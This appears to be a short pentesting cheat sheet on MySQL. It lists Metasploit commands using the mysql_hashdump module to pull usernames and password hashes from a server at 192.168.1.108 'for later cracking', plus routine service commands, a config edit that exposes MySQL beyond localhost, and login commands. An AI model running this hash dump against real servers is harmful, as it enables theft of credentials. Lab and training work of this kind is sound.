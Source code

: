 

 Extracting Login from Mysql-server
 ---------------------------------------
 - And to extracts the usernames and encrypted password hashes from a MySQL server and stores them for later cracking; use the following exploit :

# use auxiliary/scanner/mysql/mysql_hashdump
# set rhosts 192.168.1.108
# set username root
# set password 123
# exploit




 Check mysql status using below commands:
-------------------------------------

# systemctl status mysql

# systemctl enable --now mysql

# systemctl start mysql

# systemctl stop mysql


# nano /etc/mysql/mariadb.conf.d/50-server.cnf

add hash like below command

--------------------------------------
#bind-address            = 127.0.0.1
--------------------------------------


 mysql login
 --------------------------------

# mysql -h 127.0.0.1 -u root -p

# mysql -u root -h 192.168.1.5 -p





